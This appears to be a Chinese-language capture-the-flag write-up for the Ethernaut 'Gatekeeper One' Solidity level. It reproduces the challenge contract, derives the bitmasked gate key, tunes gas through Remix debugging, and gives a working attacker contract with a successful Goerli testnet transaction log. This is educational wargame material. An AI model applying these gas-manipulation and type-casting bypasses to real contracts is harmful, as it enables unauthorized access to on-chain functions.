



Make it past the gatekeeper and register as an entrant to pass this level.

##### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


参考答案链接：https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009

如果想要使一个x满足 uint32(x) == uint16(x)，uint16转为uint32之后的高16位必定是自动填补的0，所以保证uint32的高16位是0就可以了，那么让 x = x & 0x0000FFFF 屏蔽掉了高16位使其全部为0

如果想要使一个x满足 uint32(x) != uint64(x)，uint32转为uint64之后的高32位必定是自动填补的0，要保证高32位不同，那么让 x =  x & 0xFFFFFFFF+0000FFFF 就可保留x的高32位内容

如果想要使一个x满足 uint32(x) == uint16(tx.origin)，满足这一条让 x = tx.origin & 0x0000FFFF 就行了，和第一条重叠了

所以最终的 **bytes8 key = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;**


现在还在enterGate函数中，马上要执行CALL这个opcode，注意此时remaining gas是7149



进入到enter函数中，注意此时remaining gas已经变为我们自己指定的3000了



debug到这里，注意此时opcode是GAS (Get the amount of available gas, including the corresponding reduction for the cost of this instruction) ，所以可以认为在执行gasleft()之前，一共消耗了 3000 - 2748 = 252 gas，也就是说在从进入enter函数到执行gateTwo这个modifier的gasleft()之前一共需要消耗252，如果要计算为8191的整数倍的话就是:

8,191 + 252 = 8,443




https://github.com/ethereum/remix-project/issues/147 在remix的GitHub issue里找到这个，现在remix不能自己指定发起交易能使用多少gas

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.2/contracts/token/ERC20/ERC20.sol";

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

contract Hack {
    GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
        (bool success,) = address(gate).call{gas: 8191 * 4 + 211}(abi.encodeWithSignature("enter(bytes8)", key));

          console.log(success);
      
    }
}
```

Gatekeeper 地址 0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f

Hack 地址 0x0B8a25D421FAd49042E874d95D021fab2862930C

```json

status	true Transaction mined and execution succeed
transaction hash	0xed0696e5d1e64bd6f66c562e99fea6fc99f8bebbf5d05d0da2aea60667c4e678
from	0x7FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
to	Hack.enterGate() 0x0B8a25D421FAd49042E874d95D021fab2862930C
gas	60000 gas
transaction cost	51995 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	 - 
logs	[]
val	0 wei
```

设置了gaslimit为60,000

部署到Goerli testnet上之后一切都正常了